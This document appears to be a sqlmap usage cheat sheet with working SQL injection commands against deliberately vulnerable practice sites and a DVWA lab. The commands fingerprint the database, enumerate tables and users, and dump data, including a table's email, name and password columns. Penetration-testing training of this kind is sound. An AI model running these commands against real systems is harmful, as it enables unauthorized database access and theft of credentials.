 # Usage
http://www.webscantest.com/

# Determine the DBMS Behind the Web Site
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4"
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1
# Find the Databases
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
# Get More Info from the Database
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --tables
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs --columns -D webscantest

./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables --columns
# Enumerate the Database Users
./sqlmap.py -u "http://webscantest.com/datastore/search_get_by_id.php?id=4" --users
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns

**Output: &&
database management system users [1]:
[*] 'webscantest'@'%'

**Description:* In this case, the user "scanme" can login from any host or IP, as the database admin has used the wildcard "%" which means "any or none".

# Extract the Data
./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dump -D webscantest -T orders
./sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D acuart -T users -C email,name,pass 

#DVWA Example: http://resources.infosecinstitute.com/sql-injection/

1. Get cookie
2. ./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low"
3. Get Data

    * `./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low" --dbs --tables`
    * `./sqlmap.py -u "https://sqlmap-dungdt.c9users.io/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=arkk9hvnd6hi86uefdv1vrsts0; security=low" -D dvwa -T users --dump`
